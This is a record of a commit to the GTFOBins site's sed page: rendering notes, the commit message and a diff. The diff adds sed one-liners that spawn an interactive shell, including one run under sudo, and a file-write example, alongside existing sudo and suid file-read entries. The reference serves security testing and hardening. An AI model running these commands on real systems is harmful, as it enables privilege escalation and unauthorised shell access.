

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/sed.md, in a window 1280 px wide. Shown: the whole page at 88% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 900 px from its top, so only the background shows below that.

Commit message:
Add execute-interactive & file-write to sed

```diff
--- a/_gtfobins/sed.md
+++ b/_gtfobins/sed.md
@@ -1,9 +1,9 @@
 ---
 functions:
+  execute-interactive:
+    - code: sed "e /bin/sh -c 'exec 10<&0 11>&1 0<&2 1>&2; /bin/sh -i'"
   sudo-enabled:
-    - code: |
-        LFILE=file_to_read
-        sudo sed -e '' "$LFILE"
+    - code: sudo sed "e /bin/sh -c 'exec 10<&0 11>&1 0<&2 1>&2; /bin/sh -i'"
   suid-enabled:
     - code: |
         LFILE=file_to_read
@@ -12,4 +12,8 @@ functions:
     - code: |
         LFILE=file_to_read
         sed -e '' "$LFILE"
+  file-write:
+    - code: |
+        LFILE=file_to_write
+        echo x | sed "s/x/data/;w $LFILE"
 ---
```
